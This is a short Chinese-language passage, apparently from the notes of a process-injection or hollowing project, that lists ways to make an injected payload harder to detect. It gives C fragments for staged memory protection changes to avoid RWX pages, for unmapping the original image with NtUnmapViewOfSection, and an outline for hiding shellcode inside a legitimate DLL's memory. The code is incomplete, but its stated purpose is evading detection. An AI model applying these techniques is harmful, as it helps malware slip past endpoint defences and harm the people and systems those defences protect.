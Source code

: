 ## 改进方向

### 1. 更隐蔽的内存保护

**当前实现**:
```c
VirtualAllocEx(hProcess, ..., PAGE_EXECUTE_READWRITE);  // RWX = 可疑
```

**改进方案**:
```c
// 分阶段修改保护属性
LPVOID mem = VirtualAllocEx(hProcess, ..., PAGE_READWRITE);
WriteProcessMemory(hProcess, mem, payload, payloadSize, NULL);
VirtualProtectEx(hProcess, mem, payloadSize, PAGE_EXECUTE_READ, &oldProtect);
```

### 2. 清理"僵尸镜像"

**问题**: 原始镜像占用内存且可被检测

**改进方案**:
```c
// 在 payload 启动后，用 payload 代码主动卸载僵尸镜像
// (需要 payload 配合)
void Payload_Main() {
    // 延迟执行，确保进程已稳定
    Sleep(1000);

    // 获取僵尸镜像基址（扫描内存）
    PVOID zombieBase = FindZombieImage();
    if (zombieBase) {
        NtUnmapViewOfSection(GetCurrentProcess(), zombieBase);
    }

    // 执行正常 payload 逻辑
    RunPayload();
}
```

### 3. 模块伪装

**问题**: Payload 内存不在合法模块列表中

**改进方案**:
```c
// 劫持已加载的合法 DLL 的内存空间
// 1. 枚举目标进程的 DLL
// 2. 选择大小合适的 DLL（如 kernel32.dll 的.data 节）
// 3. 在该节中写入 shellcode stub
// 4. 将完整 payload 写入新分配的内存
// 5. Stub 跳转到 payload
```
